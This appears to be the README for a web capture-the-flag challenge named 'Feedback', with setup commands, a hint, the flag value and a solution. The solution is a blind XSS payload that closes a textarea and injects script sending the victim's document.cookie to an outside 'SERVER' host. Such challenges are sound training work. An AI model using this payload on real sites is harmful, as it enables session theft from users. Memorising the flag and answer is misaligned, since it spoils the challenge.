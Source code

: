 ## Feedback

### Category
Web

### Points
medium/hard

### Task description
Ваше  мнение очень важно для нас.
http://IP:PORT

@baydarich

### Flag
kaiCTF{c063c864e3fa3d802271ed5198f88118}

### Hint
blind xss

### Info

Provide only web service link to the participants, no files required.
Go to `ready` folder and run:
```
docker build --tag blind-xss-task .
docker run -d -p 31337:31337 blind-xss-task
```

### Solution
```
</textarea><script>document.write('<img src="http://SERVER/?' + document.cookie + '"/>')</script>
```